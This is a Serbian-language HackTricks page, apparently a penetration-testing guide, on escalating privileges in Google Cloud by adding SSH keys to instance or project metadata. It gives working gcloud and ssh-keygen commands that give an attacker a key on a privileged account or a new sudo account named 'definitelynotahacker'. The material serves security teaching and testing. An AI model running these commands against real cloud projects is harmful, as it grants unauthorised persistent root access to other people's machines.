 # GCP - Dodavanje prilagođenih SSH metapodataka

## GCP - Dodavanje prilagođenih SSH metapodataka

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

### Modifikacija metapodataka <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modifikacija metapodataka na instanci može dovesti do **značajnih bezbednosnih rizika ako napadač dobije potrebne dozvole**.

#### **Uključivanje SSH ključeva u prilagođene metapodatke**

Na GCP-u, **Linux sistemi** često izvršavaju skripte iz [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Kritična komponenta ovoga je [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), koji je dizajniran da **redovno proverava** krajnju tačku metapodataka instance za **ažuriranja autorizovanih SSH javnih ključeva**.

Stoga, ako napadač može da modifikuje prilagođene metapodatke, mogao bi da natera daemon da pronađe novi javni ključ, koji će biti obrađen i **integrisan u lokalni sistem**. Ključ će biti dodat u `~/.ssh/authorized_keys` datoteku **postojećeg korisnika ili potencijalno kreirati novog korisnika sa `sudo` privilegijama**, u zavisnosti od formata ključa. I napadač će moći da kompromituje host.

#### **Dodavanje SSH ključa postojećem privilegovanom korisniku**

1. **Istražite postojeće SSH ključeve na instanci:**
*   Izvršite komandu da opišete instancu i njene metapodatke kako biste locirali postojeće SSH ključeve. Relevantni deo u izlazu biće pod `metadata`, posebno ključ `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Obratite pažnju na format SSH ključeva: korisničko ime prethodi ključevi, odvojeni dvotačkom.
2. **Pripremite tekstualnu datoteku za SSH ključ metapodatke:**
* Sačuvajte detalje korisničkih imena i njihovih odgovarajućih SSH ključeva u tekstualnu datoteku pod nazivom `meta.txt`. Ovo je neophodno za očuvanje postojećih ključeva dok dodajete nove.
3. **Generišite novi SSH ključ za ciljanog korisnika (`alice` u ovom primeru):**
*   Koristite komandu `ssh-keygen` da generišete novi SSH ključ, osiguravajući da se polje komentara (`-C`) poklapa sa ciljnim korisničkim imenom.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Dodajte novi javni ključ u `meta.txt`, imitujući format koji se nalazi u metapodacima instance.
4. **Ažurirajte metapodatke SSH ključeva instance:**
*   Primijenite ažurirane metapodatke SSH ključeva na instancu koristeći komandu `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Pristupite instanci koristeći novi SSH ključ:**
*   Povežite se na instancu putem SSH koristeći novi ključ, pristupajući shell-u u kontekstu ciljanog korisnika (`alice` u ovom primeru).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Kreirajte novog privilegovanog korisnika i dodajte SSH ključ**

Ako nijedan zanimljiv korisnik nije pronađen, moguće je kreirati novog koji će dobiti `sudo` privilegije:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH ključevi na nivou projekta <a href="#sshing-around" id="sshing-around"></a>

Moguće je proširiti domet SSH pristupa na više Virtuelnih Mašina (VM) u cloud okruženju **primenom SSH ključeva na nivou projekta**. Ovaj pristup omogućava SSH pristup bilo kojoj instanci unutar projekta koja nije eksplicitno blokirala SSH ključeve na nivou projekta. Evo sažetog vodiča:

1. **Primena SSH ključeva na nivou projekta:**
*   Koristite komandu `gcloud compute project-info add-metadata` da dodate SSH ključeve iz `meta.txt` u metapodatke projekta. Ova akcija osigurava da SSH ključevi budu prepoznati na svim VM-ovima u projektu, osim ako VM nema omogućenu opciju "Blokiraj SSH ključeve na nivou projekta".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH u instance koristeći ključeve na nivou projekta:**
* Sa SSH ključevima na nivou projekta, možete SSH u bilo koju instancu unutar projekta. Instance koje ne blokiraju ključeve na nivou projekta će prihvatiti SSH ključ, omogućavajući pristup.
* Direktna metoda za SSH u instancu je korišćenje komande `gcloud compute ssh [INSTANCE]`. Ova komanda koristi vaše trenutno korisničko ime i SSH ključeve postavljene na nivou projekta da pokuša pristup.

## Reference

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
